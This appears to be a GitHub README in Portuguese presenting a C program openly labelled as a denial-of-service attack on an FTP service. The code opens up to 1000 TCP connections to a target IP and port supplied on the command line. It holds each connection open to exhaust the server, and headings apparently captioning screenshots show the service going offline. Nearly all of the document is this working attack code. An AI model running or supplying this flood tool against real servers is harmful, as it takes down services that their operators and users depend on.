


# Script para Ataque de Negação DoS no serviço FTP

## Código script:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define MAX_CONNECTIONS 1000   // Número máximo de conexões

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Uso: %s <IP destino> <porta destino>\n", argv[0]);
        return 1;
    }

    char *dest_ip = argv[1];   // IP do destino fornecido como argumento
    int dest_port = atoi(argv[2]);   // Porta do destino fornecida como argumento

    int sock;
    struct sockaddr_in dest;
    
    // Loop para tentar abrir várias conexões
    for (int i = 0; i < MAX_CONNECTIONS; i++) {
        sock = socket(AF_INET, SOCK_STREAM, 0);
        if (sock < 0) {
            perror("Erro ao criar o socket");
            exit(1);
        }

        // Preenche a estrutura sockaddr_in
        dest.sin_family = AF_INET;
        dest.sin_port = htons(dest_port);
        dest.sin_addr.s_addr = inet_addr(dest_ip);

        // Tenta conectar ao servidor FTP
        if (connect(sock, (struct sockaddr *)&dest, sizeof(dest)) < 0) {
            perror("Erro ao conectar");
            close(sock);
            continue;
        }

        // Aqui você pode enviar comandos ou manter a conexão aberta
        // Como estamos apenas sobrecarregando, não vamos enviar dados e não fecharemos o socket
        printf("Realizando Ataque DoS. Conexão %d aberta com sucesso. IP: %s, Porta: %d\n", i + 1, dest_ip, dest_port);
        
        // Não fechamos o socket, permitindo que a conexão fique aberta
    }

    return 0;
}
```
## ./flood.c



## FTP ON


## Realizando Ataque



## FTP OFF

